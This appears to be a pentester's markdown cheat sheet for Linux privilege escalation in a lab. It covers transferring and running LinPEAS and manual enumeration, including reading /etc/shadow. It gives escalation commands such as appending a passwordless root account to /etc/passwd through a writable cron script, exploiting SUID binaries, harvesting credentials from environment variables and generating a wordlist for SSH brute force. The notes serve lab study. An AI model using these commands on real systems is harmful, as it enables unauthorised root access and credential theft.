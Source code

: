 # Linux priviledge  
- 🖥️ **Automated Linux Enum - LinPEAS.sh**
  - https://osintteam.blog/practical-guide-to-using-linpeas-for-linux-privilege-escalation-a7c753dd5293
  - transfer linpeas.sh and execute
    ```
    #kali
    scp linpeas.sh <user>@<target>
    scp -P 2222 linpeas.sh <user>@<target>:/tmp/
    wget http://<kali>/linpeas.sh -O linpeas.sh
    wget https://github.com/peass-ng/PEASS-ng/releases/download/20250801-03e73bf3/linpeas.sh

    #target
    chmod +x linpeas.sh
    ./linpeas.sh | tee linpeas_output.txt

    #transfer back
    scp student@192.168.196.52:2222:/home/student/linpeas_output.txt /home/kali/share/results/   #default port 22
    scp -P 2222 student@192.168.196.52:/home/student/linpeas_output.txt /home/kali/share/results/ #non standard port
    ```
  - Analyze red/yellow font
    - `grep --color=always -i "sudo" linpeas.txt` (sudo, suid, capabilities, cron, password, writeable, service, ssh, kernel)
    - ❗**SUID - Check easy privesc, exploits and write perms**
      - `/usr/bin/find` > Exploit with GTFOBins
    - ❗**Interesting writable files**
      - `/etc/passwd` `/etc/sudoers.d/` > Modify /etc/passwd to create a root shell > `echo 'malicioususer:x:0:0::/root:/bin/bash' >> /etc/passwd su malicioususer`
    - `grep -E "hash SUID bit set" linpeas_output.txt` > Goolge exploit "Pkexec Privilege Escalation poc"  
    - Check for vulnerable cron jobs
      - `-rwxrwxrwx 1 root root 1234 /etc/cron.d/backup.sh` > edit the writable backup.sh > `echo 'root::0:0::/root:/bin/bash' >> /etc/passwd`  
    - Checking all env variables
      - `AWS_SECRET_KEY=EXAMPLEDATA12345` > aws configure
    - Kernel Exploits > research and download a matching exploit > compile and execute
      - `gcc exploit.c -o exploit ./exploit` 
- Enumeration
  - Manual  
    User/Groups: `id` `whoami` `cat /etc/passwd` `cat /etc/shadow` `groups` `ps aux`  
    **Priviledge: `sudo -l`  `find / -perm -4000 -type f 2>/dev/null`  `find / -perm -2000 -type f 2>/dev/nul`**  
    System and apps: `cat /etc/*release` `uname -a` `dpkg -l`  
    List cron jobs: `ls -lah /etc/cron*` `crontab -l` `sudo crontab -l //root`  
    List writable directories: `find / -writable -type d 2>/dev/null` `find / -writable -type f 2>/dev/null`    
    setuid, segid: `find / -perm -u=s -type f 2>/dev/null`    
  - 🖥️ **Automated PrivCheck - unix-privesc-check**
    - Download from https://pentestmonkey.net/tools/audit/unix-privesc-check  
    - `scp /home/kali/offsec/unix-privesc-check-1.4/unix-privesc-check <user>@<target>:/home/joe`  
    - `joe@debian-privesc:~$ ./unix-privesc-check standard > unix-privesc-check.txt`  
    - Look for writable files "WARNING:"  
- Exposed Credential Info  
  - Env variables  
    `joe@debian-privesc:~$ env`
  - bashrc  
    `joe@debian-privesc:~$ cat .bashrc`
  - **elevate to root `su -i`**  
  - Attempt brute force attack of ssh by using a custom wordlist (min6, max6, follow by 3 numeric digits. E.g Lab000)   
    `kali@kali:~$ crunch 6 6 -t Lab%%% > wordlist`  